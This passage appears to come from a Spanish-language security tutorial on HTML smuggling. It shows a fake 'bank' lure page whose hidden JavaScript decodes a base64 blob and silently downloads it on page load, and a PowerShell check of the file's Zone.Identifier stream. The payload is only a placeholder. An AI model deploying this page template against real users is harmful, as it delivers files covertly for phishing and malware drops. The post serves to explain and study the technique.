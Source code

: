 ```html
         a.click();
         window.URL.revokeObjectURL(url);
      </script>
   </body>
</html>
```
o por ejemplo 

```html
<html>
    <head>
        <title>Your banck</title>
    </head>
    <body>
        <p>Real no fake money for you</p>

        <script>
        function convertFromBase64(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array( len );
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
            return bytes.buffer;
        }

        var file ='hashashashashahsh=';
        var data = convertFromBase64(file);
        var blob = new Blob([data], {type: 'octet/stream'});
        var fileName = 'test.txt';

        if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
        else {
            var a = document.createElement('a');
            document.body.appendChild(a);
            a.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            a.href = url;
            a.download = fileName;
            a.click();
            window.URL.revokeObjectURL(url);
        }
        </script>
    </body>
</html>
```
Cuando visites la página el navegador reconstruirá y descargará el fichero sin que el usuario haya tenido que interactuar ni exponer el link. 

> Recuerda que el fichero siempre tendrá en su descarga marcada la procedencia del mismo, internet, así como el link. Puedes usar gc para comprobarlo por ti mismo.
{: .prompt-tip }
```powershell
PS C:\Users\c0nfig\Downloads> gc .\c0nfig.txt -Stream Zone.Identifier
[ZoneTransfer]
ZoneId=3
ReferrerUrl=http://c0nfigrealdomain.com/mysuggler.html
HostUrl=http://c0nfigrealromain.com/
```
